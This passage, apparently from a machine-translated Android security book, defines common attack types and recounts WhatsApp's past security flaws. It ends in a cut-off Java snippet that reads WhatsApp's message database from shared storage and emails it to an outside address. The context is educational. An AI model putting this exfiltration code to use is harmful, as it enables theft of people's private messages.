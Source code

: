 # 第七章。安全

安全在维基百科中被定义为“抵抗或保护免受伤害的程度”。它适用于任何脆弱和有价值的资产，如个人、住所、社区、物品、国家或组织。”

当我们想到软件中的安全性时，我们的脑海中会浮现出黑客使用黑屏和绿色字体工作的画面，他们总是非常快速地键入控制台命令来访问系统或突破防火墙。现实与好莱坞看到的不同。**安全软件中的**指的是一个健壮的系统，它保护用户的隐私，避免攻击者不希望的交互，并且具有完整性。

计算机系统可能会遇到几个漏洞或攻击媒介:

*   **后门**:后门是一个用来绕过应用安全的点，传统上是由系统的开发者留下的。2013 年，斯诺登曝光的一桩丑闻表明，美国国家安全局有许多可操作的系统和平台的后门，包括来自谷歌的系统和平台。
*   **拒绝服务** : A **拒绝服务** ( **DoS** )是攻击，目的是让用户无法使用某个资源。DDoS 和 DoS 攻击属于这一类:这些攻击包括向服务器发送请求，直到服务器无法处理所有请求并停止向合法用户提供内容。
*   **直接访问攻击**:在这个类别中，攻击者直接访问系统，一般目的是窃取其中包含的文档或相关信息。
*   **Main-in-the-middle (MitM) attack**: With this attack, a third party interposes a computer between a legitimate destination and origin, and establishes itself fraudulently as the legitimate destination. The user then sends all the information to this interceptor, which often resends again the information to the legitimate destination, so the user does not realize the information has been intercepted.

    ![Security](img/4666_07_01.jpg)

    MitM 攻击的地形

*   **篡改**:篡改是指对软件的恶意修改，一般以假装是合法版本为目的，在后台进行一些不希望的操作(如监控，或信息窃取)。

安卓系统作为一个操作系统，并不是没有这些风险。考虑到它的广泛范围(全球有超过 10 亿的安卓设备)，它实际上比其他平台受到的威胁更大。已经有一些著名的(并且广泛使用的)带有设计标志的应用程序，它们通常被用作当软件没有被正确设计时会发生什么的例子。

# WhatsApp——永远的“无政府主义”展示

WhatsApp 可以展示应用程序可以展示的一些标志。2011 年报告了一个 bug，称 WhatsApp 内部的通信没有加密。连接到同一无线网络的设备可以访问其他设备之间的通信。修复这个 bug 花了将近一年的时间，这个 bug 解决起来并不是特别复杂。

那年晚些时候，还报告了一个允许攻击者冒充用户并控制其帐户的问题。2012 年 1 月，一名黑客发布了一个网站，如果知道电话号码，就可以更改安装了 WhatsApp 的任何设备的状态。WhatsApp 修复这个 bug 的唯一措施是屏蔽网站的 IP 地址(任何读者都可以想象，这远不是一个有效的措施)。

WhatsApp 多年来存在的一个大问题是，消息存储在本地数据库中。这是在外部存储中完成的，外部存储是任何其他应用程序(以及任何恶意黑客)都可以访问的文件。这个想法可能有它的理由(例如保留备份)，但是的实现是一场灾难。数据库总是使用相同的加密密钥进行加密，因此任何有权访问该文件的人都可以轻松地解密它。以下几行是获取数据库文件并通过电子邮件发送的操作示例:

```java
  public void onClick(View v) {
      try {   
          AsyncTask<Void, Void, Void> m = new AsyncTask<Void, Void, Void>() {

              @Override
              protected Void doInBackground(Void... arg0) {
                  GMailSender sender = new GMailSender(EMAIL_STRING, PASSWORD_STRING);
                  try {
                     File f = new File(filePathString); 
                 if (f.exists() && !f.isDirectory()) {
                   sender.addAttachment("/storage/sdcard0/ WhatsApp/ Databases/msgstore.db.crypt", SUBJECT_STRING);
                            sender.sendMail(SUBJECT_STRING,
                                    BODY_STRING,
                                    EMAIL_STRING,
```